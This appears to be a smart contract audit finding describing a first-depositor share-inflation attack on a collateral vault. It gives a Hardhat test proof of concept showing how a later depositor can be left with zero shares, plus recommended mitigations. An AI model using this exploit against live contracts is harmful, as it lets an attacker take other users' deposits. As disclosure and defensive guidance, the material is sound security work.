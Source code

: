 ### Proof of Concept

*   Attacker deposits 2 wei (so that it is greater than min fee) to mint 1 share
*   Attacker transfers exorbitant amount to `_strategyController` to greatly inflate the share’s price. Note that the `_strategyController` deposits its entire balance to the strategy when its `deposit()` function is called.
*   Subsequent depositors instead have to deposit an equivalent sum to avoid minting 0 shares. Otherwise, their deposits accrue to the attacker who holds the only share.

```jsx
it("will cause 0 share issuance", async () => {
	// 1. first user deposits 2 wei because 1 wei will be deducted for fee
	let firstDepositAmount = ethers.BigNumber.from(2)
	await transferAndApproveForDeposit(
	    user,
	    collateral.address,
	    firstDepositAmount
	)
	
	await collateral
	    .connect(user)
	    .deposit(firstDepositAmount)
	
	// 2. do huge transfer of 1M to strategy to controller
	// to greatly inflate share price
	await baseToken.transfer(strategyController.address, ethers.utils.parseEther("1000000"));
	
	// 3. deployer tries to deposit reasonable amount of 10_000
	let subsequentDepositAmount = ethers.utils.parseEther("10000");
	await transferAndApproveForDeposit(
	    deployer,
	    collateral.address,
	    subsequentDepositAmount
	)

	await collateral
	    .connect(deployer)
	    .deposit(subsequentDepositAmount)
	
	// receives 0 shares in return
	expect(await collateral.balanceOf(deployer.address)).to.be.eq(0)
});
```

### Recommended Mitigation Steps

*   [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
*   Ensure the number of shares to be minted is non-zero: `require(_shares != 0, "zero shares minted");`
*   Create a periphery contract that contains a wrapper function that atomically calls `initialize()` and `deposit()`
*   Call `deposit()` once in `initialize()` to achieve the same effect as the suggestion above.
